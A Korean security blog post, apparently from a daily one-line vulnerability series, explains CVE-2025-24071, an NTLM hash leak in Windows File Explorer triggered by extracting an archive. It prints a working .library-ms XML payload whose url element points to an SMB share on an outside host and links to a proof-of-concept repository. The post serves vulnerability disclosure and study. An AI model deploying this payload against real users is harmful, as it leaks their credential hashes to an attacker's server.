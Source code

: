 ```yaml
---
title: "[하루한줄] CVE-2025-24071 : Windows File Explorer의 NTLM Hash Leak 취약점"
author: pwndorei
tags: [pwndorei, Windows, NTLM, SMB]
categories: [1day1line]
date: 2025-03-20 20:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://cti.monster/blog/2025/03/18/CVE-2025-24071.html](https://cti.monster/blog/2025/03/18/CVE-2025-24071.html)

## Target

- 2025년 3월 누적 업데이트 이전 Windows

## Explain

Windows File Explorer에서 .rar/.zip 파일의 압축을 해제하는 과정에서 취약점이 발생해서 NTLM Hash를 유출하는 것이 가능했습니다.

취약점은 압축 파일에 아래와 같이 `<url>` element에 SMB 경로를 포함하고 있는 .library-ms 확장자의 파일이 존재할 때 발생합니다.

> .library-ms: Microsoft Windows 7에서 도입된 xml 형태의 시스템 파일로, Windows 탐색기 왼쪽 패널의 라이브러리 폴더 내에 하위 폴더로 표시되며 라이브러리를 열 때 찾아볼 수 있는 하나 이상의 폴더에 대한 참조가 포함되어 있습니다.
> 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <simpleLocation>
                <url>\\192.168.1.116\shared</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```

압축이 해제되면 `<url>` element에 저장된 SMB 경로를 메타 데이터 등을 가져오기 위해 resolve하고 이 과정에서 User Interaction 없이 NTLM Hash가 서버로 전송됩니다.

아래와 같이 [PoC](https://github.com/0x6rss/CVE-2025-24071_PoC)를 실행하면 SMB 서버에 자동적으로 NTLM 인증을 시도하면서 NTLM Hash가 전송되는 것을 확인할 수 있습니다.

<iframe width="560" height="315" src="https://cti.monster/assets/video/wireshark.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

> 출처: [https://cti.monster/blog/2025/03/18/CVE-2025-24071.html](https://cti.monster/blog/2025/03/18/CVE-2025-24071.html)
> 

이러한 동작은 File Explorer에서 특정 포맷의 파일을 자동적으로 처리하고 .library-ms 파일의 데이터를 암묵적으로 신뢰했기 때문으로 아래처럼 ProcMon을 통해 살펴보면 파일의 압축이 해제된 후 Explorer.exe와 SearchProtocolHost.exe가 .library-ms 파일에 접근하는 것을 확인할 수 있습니다.

<iframe width="560" height="315" src="https://cti.monster/assets/video/procmon.mp4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

> 출처: [https://cti.monster/blog/2025/03/18/CVE-2025-24071.html](https://cti.monster/blog/2025/03/18/CVE-2025-24071.html)
>
